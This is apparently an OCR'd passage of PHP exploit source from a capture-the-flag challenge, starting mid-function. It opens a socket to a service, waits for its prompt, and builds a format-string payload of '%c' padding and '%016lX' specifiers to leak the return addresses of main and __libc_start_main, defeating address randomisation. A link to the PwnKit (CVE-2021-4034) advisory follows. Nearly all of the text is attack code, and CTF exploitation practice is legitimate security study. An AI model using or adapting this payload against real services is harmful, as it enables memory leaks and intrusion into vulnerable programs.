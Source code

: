 ```php
{
	if(strlen($s) >= 0x100)
		throw new Exception("Too big!");

	fwrite($fp, "$s\n");

	$buffer = line($fp);
	$line   = line($fp);

	while($line !== "Would you like to say anything before I scream into the void? ") {
		$buffer = $buffer . "\n" . $line;
		$line   = line($fp);
	}

	return $buffer;
}

//printf("[*] Opening connection\n");
$time = microtime(true);

$fp = fsockopen(HOST, PORT);

if(!LOCAL)
	expectLine($fp, "== proof-of-work: disabled ==");

//printf("[+] Done in %f seconds\n", microtime(true) - $time);
//printf("\n");

expectLine($fp, "Would you like to say anything before I scream into the void? ");


step1: // leak and loop
$payload = "";

// Padding
$idx = 8;
$payload .= str_repeat("%c", $idx);
$size = $idx;

// 9: base + 0x135c (ret addr of main)
$idx++;
$payload .= "%016lX";
$size += 16;

// 10: uninteresting
$idx++;
$payload .= "%c";
$size += 1;

// 11: libc + 0x24083 (ret addr of __libc_start_main)
$idx++;
$payload .= "%016lX";
$size += 16;


// padding for argv
$target = IDX_ARGV - 2;
assert($target >= 0);

$payload .= str_repeat("%c", $target - $idx);
$size += $target - $idx;
$idx   = $target;

```

[pwnkit]: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt